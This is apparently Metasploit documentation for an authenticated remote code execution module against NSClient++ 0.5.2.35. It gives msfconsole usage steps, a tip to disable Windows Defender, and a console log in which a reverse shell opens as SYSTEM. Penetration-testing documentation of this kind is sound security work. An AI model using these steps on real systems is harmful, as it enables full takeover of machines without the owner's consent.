 ## Vulnerable Application

### Description

This module allows an attacker with knowledge of the admin password of NSClient++ 0.5.2.35 to start a privileged reverse shell.
For this module to work, both web interface of NSClient++ and `ExternalScripts` feature should be enabled.

### Installation

A vulnerable version of NSClient++ can be downloaded from [here]https://nsclient.org/download/). Then you can help yourself with
this [installation guide](https://docs.nsclient.org/api/rest/) to complete the installation. Don't forget to enable the web interface
and the `ExternalScripts` feature to allow the exploit to work.

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/windows/http/nscp_authenticated_rce`
3. `set RHOST <target_host>`
4. `set PASSWORD <admin_password>` to set the admin password of NSClient++ web interface
5. `check` to check if the targeted NSClient++ is vulnerable
6. `set payload <choose_a_payload>` to set a specific payload to send
7. `run` the module to exploit the vulnerability and start a shell

## Options

### PASSWORD

Set the PASSWORD of the admin account of NSClient++.

## Scenarios

This module was successfully tested on Windows 10 Home (you may need to disable Windows Defender as msf payload could be spotted).
See the following output :

```
msf > use nscp_authenticated_rce
[*] Using configured payload windows/x64/shell_reverse_tcp
msf exploit(nscp_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(nscp_authenticated_rce) > set password easypassword
password => easypassword
msf exploit(nscp_authenticated_rce) > exploit

[*] Started reverse TCP handler on y.y.y.y:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[+] The target is vulnerable. External scripts feature enabled !
[*] Configuring Script with Specified Payload . . .
[*] Added External Script (name: zqlmwevxef)
[*] Saving Configuration . . .
[*] Reloading Application . . .
[*] Waiting for Application to reload . . .
[*] Triggering payload, should execute shortly . . .
[*] Command shell session 21750 opened (y.y.y.y:4444 -> x.x.x.x:51026) at 2021-06-08 16:54:39 +0200

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```
